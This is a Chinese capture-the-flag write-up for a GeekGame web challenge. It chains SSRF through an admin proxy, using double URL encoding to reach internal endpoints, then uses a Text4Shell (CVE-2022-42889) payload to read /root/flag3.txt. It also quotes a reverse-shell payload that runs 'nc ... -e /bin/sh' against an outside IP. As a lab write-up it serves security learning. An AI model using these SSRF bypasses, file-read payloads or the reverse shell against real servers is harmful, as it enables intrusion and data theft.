

# 企业级理解

## Flag 1

访问 `/admin/` 页面，发现表单：



第一栏有三个选项：

- `PKU`
- `PKUGame`
- `PKU_GeekGame`

第二栏需要自己填写。

根据 `HTML` 源码，可以知道这个表单的动作是 `POST /admin/query`，其中第一栏的值会被作为 `type`，第二栏的值会被作为 `value`。

- 随便填一些 `value`，会被 302 到 `/login`。
- 用 `Insomnia` 发 `POST` 请求给 `/admin/query`，会卡死。不知何故。`/admin` 和 `/admin/source_bak` 也是相同情况。这三个链接都是在给出的源码里被显式加上了角色验证 `hasAnyRole()` 的。换用 `CURL`，则是直接断开。看来就是被拦截了，只是 `Insomnia` 和 `CURL` 在被拦截后的处理方式不同。
- 尝试访问 `/admin/q` 也到了和 `/admin/` 相同的页面，但这次在 `value` 一栏中有一段默认值 `404 Not Found from POST http://localhost:8079/q`。从[源码片段](./prob08-src.pdf)中我们可以知道 `8079` 是 `Backend` 运行的端口。说明我们对于 `/admin/xxx` 的请求，被转发到了后端的 `/xxx`。
- 试试看 `/admin/flag`。好吧，没这么容易拿到。
- 尝试别的方法，如 `DELETE` 等，发现转发给 `Backend` 时都变成了 `POST`。
- `POST /admin/` 时 `value` 字段的内容会自动填入。推测是 `POST http://localhost:8079/` 时，页面显示的内容就是 `value` 字段的内容。
- 试了一个新地址 `/admin/javascript:alert(2)`，`value` 字段的内容为 `Failed to resolve 'javascript:alert(2)'; nested exception is java.net.UnknownHostException: Failed to resolve 'javascript:alert(2)'`。
- `POST /admin/xxx` 时，`type` 字段填入之前没有的选项，会被加入到可选项中。猜测这样可以添加新用户，然而并非如此，或者至少新增的用户密码并不是我们填入的 `value`。

> 第二阶段提示后完成。

- 访问`/admin/source_bak/` 拿到新的一部分源码片段：

```java
import org.springframework.web.reactive.function.client.WebClient;
@RestController
public class AdminController {
  WebClient webClient =
      WebClient.builder().baseUrl("http://localhost:8079/").build();
  @RequestMapping("/admin/{index}")
  public String adminIndex(@PathVariable(name = "index") String index,
                           String auth, QueryBean queryBean) {
    if (index != null & index.contains("%")) {
      index = URLDecoder.decode(index, "UTF-8");
    }
    if (queryBean.getType() == null) {
      queryBean.setType("PKU");
    }
    if (!typeList.contains(queryBean.getType())) {
      typeList.add(queryBean.getType());
    }
    Mono str =
        webClient.post()
            .uri(index)
            .header(HttpHeaders.AUTHORIZATION, auth)
            .body(BodyInserters.fromFormData("type", queryBean.getType()))
            .retrieve()
            .bodyToMono(String.class);
    return queryBean.setValue(str.block());
  }
}
```

`POST /admin/query/` 同时令 `value=PKU_GeekGame`，得到 Flag 1：

```json
{"type":"PKU_GeekGame","value":"flag1{8a97cd0b-adec-4e63-bd46-3e6c60ea9d78} 恭喜你发现flag1，还有其他flag等待你发现哦"}
```

## Flag 2

`POST /admin/localhost:8080/` 得到提示：

```txt
Endpoints:/bonus/source_bak
```

尝试 `POST /admin/localhost:8080/bonus/source_bak`，果断 `404` 了。

改为 `POST /admin/localhost:8080%2fbonus%2fsource_bak`，这回变成了 `400`。

改为 `POST /admin/localhost:8080%252fbonus`，成功拿到了 Flag 2：

```json
{"type":"Bonus","value":"flag2{f2d9cc00-180b-404d-8117-d2e712c2e57b} 恭喜你发现flag2，还有其他flag等待你发现哦"}
```

## Flag 3

`POST /admin/localhost:8080%252fbonus%252fsource_bak`，并没有如预期那样拿到 `bonus` 的源码。

`POST /admin/https:%252f%252flocalhost:8080`，拿到了一些没有什么用的东西。

```txt
not an SSL/TLS record: 485454502f312e3120343030200d0a436f6e74656e742d547970653a20746578742f68746d6c3b636861727365743d7574662d380d0a436f6e74656e742d4c616e67756167653a20656e0d0a436f6e74656e742d4c656e6774683a203433350d0a446174653a205468752c203234204e6f7620323032322031333a35363a343620474d540d0a436f6e6e656374696f6e3a20636c6f73650d0a0d0a3c21646f63747970652068746d6c3e3c68746d6c206c616e673d22656e223e3c686561643e3c7469746c653e48545450205374617475732034303020e280932042616420526571756573743c2f7469746c653e3c7374796c6520747970653d22746578742f637373223e626f6479207b666f6e742d66616d696c793a5461686f6d612c417269616c2c73616e732d73657269663b7d2068312c2068322c2068332c2062207b636f6c6f723a77686974653b6261636b67726f756e642d636f6c6f723a233532354437363b7d206831207b666f6e742d73697a653a323270783b7d206832207b666f6e742d73697a653a313670783b7d206833207b666f6e742d73697a653a313470783b7d2070207b666f6e742d73697a653a313270783b7d2061207b636f6c6f723a626c61636b3b7d202e6c696e65207b6865696768743a3170783b6261636b67726f756e642d636f6c6f723a233532354437363b626f726465723a6e6f6e653b7d3c2f7374796c653e3c2f686561643e3c626f64793e3c68313e48545450205374617475732034303020e280932042616420526571756573743c2f68313e3c2f626f64793e3c2f68746d6c3e; nested exception is io.netty.handler.ssl.NotSslRecordException: not an SSL/TLS record: 485454502f312e3120343030200d0a436f6e74656e742d547970653a20746578742f68746d6c3b636861727365743d7574662d380d0a436f6e74656e742d4c616e67756167653a20656e0d0a436f6e74656e742d4c656e6774683a203433350d0a446174653a205468752c203234204e6f7620323032322031333a35363a343620474d540d0a436f6e6e656374696f6e3a20636c6f73650d0a0d0a3c21646f63747970652068746d6c3e3c68746d6c206c616e673d22656e223e3c686561643e3c7469746c653e48545450205374617475732034303020e280932042616420526571756573743c2f7469746c653e3c7374796c6520747970653d22746578742f637373223e626f6479207b666f6e742d66616d696c793a5461686f6d612c417269616c2c73616e732d73657269663b7d2068312c2068322c2068332c2062207b636f6c6f723a77686974653b6261636b67726f756e642d636f6c6f723a233532354437363b7d206831207b666f6e742d73697a653a323270783b7d206832207b666f6e742d73697a653a313670783b7d206833207b666f6e742d73697a653a313470783b7d2070207b666f6e742d73697a653a313270783b7d2061207b636f6c6f723a626c61636b3b7d202e6c696e65207b6865696768743a3170783b6261636b67726f756e642d636f6c6f723a233532354437363b626f726465723a6e6f6e653b7d3c2f7374796c653e3c2f686561643e3c626f64793e3c68313e48545450205374617475732034303020e280932042616420526571756573743c2f68313e3c2f626f64793e3c2f68746d6c3e
```

原来 Bonus 的源码是在 `POST /admin/localhost:8080%252fsource_bak` 这里。

```java
import org.apache.commons.text.StringSubstitutor;

@RestControllerpublic
class BonusController {
  @RequestMapping("/bonus")
  public QueryBean bonus(QueryBean queryBean) {
    if (queryBean.getType().equals("CommonsText")) {
      StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
      interpolator.setEnableSubstitutionInVariables(true);
      String value = replaceUnSafeWord(queryBean.getValue());
      String resultValue = interpolator.replace(value);
      queryBean.setValue(resultValue);
    } else {
      // flag3藏在/root/flag3.txt等待你发现
    }
    return queryBean;
  }

  public static String replaceUnSafeWord(String txt) {
    String resultTxt = txt;
    ArrayList<String> unsafeList = new ArrayList<String>(Arrays.asList("java", "js", "script", "exec",
        "start", "url", "dns", "groovy", "bsh", "eval", "ognl"));
    Iterator<String> iterator = unsafeList.iterator();
    String word;
    String replaceString;
    while (iterator.hasNext()) {
      word = iterator.next();
      replaceString = "";
      resultTxt = resultTxt.replaceAll("(?i)" + word, replaceString);
    }
    return resultTxt;
  }
}
```

这里用了 `StringSubstituor`，因此可以使用 `Text4Shell` 来攻击。但需要绕过 `replaceUnSafeWord` 中的关键词过滤。

我们需要的是获取到 `/root/flag3.txt` 这个文件。事实上这并不需要通过 `${script:javascript:java.lang.Runtime.getRuntime().exec('nc 192.168.49.1 9090 -e /bin/sh')}` 这样的方式。因为我们可以直接：

`​${file:UTF-8:/root/flag3.txt}`

```txt
> GET /admin/localhost:8080%252fbonus HTTP/2
> Host: prob08-sxvykf68.geekgame.pku.edu.cn
> user-agent: insomnia/2022.4.2
> content-type: multipart/form-data; boundary=X-INSOMNIA-BOUNDARY
> accept: */*
> content-length: 236

* STATE: DO => DID handle 0x302605bc7008; line 2077 (connection #2)
* multi changed, check CONNECT_PEND queue!
* STATE: DID => PERFORMING handle 0x302605bc7008; line 2196 (connection #2)

| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="type"
| CommonsText
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="value"
| Content-Type: text/plain
| ${file:UTF-8:/root/flag3.txt}
| --X-INSOMNIA-BOUNDARY--
```

利用任意文件读取的方式获取到 Flag 3：

```json
{"type":"CommonsText", "value":"flag{e088175f-71cd-4841-96fe-40092ddfdd23}"}
```

## 参考资料

- [Text4Shell漏洞技术分析，交易所等机构需注意](https://www.panewslab.com/zh/articledetails/ksvtl9328dg5.html)
- [text4shell CVE-2022-42889 poc](https://www.ddosi.org/cve-2022-42889/)
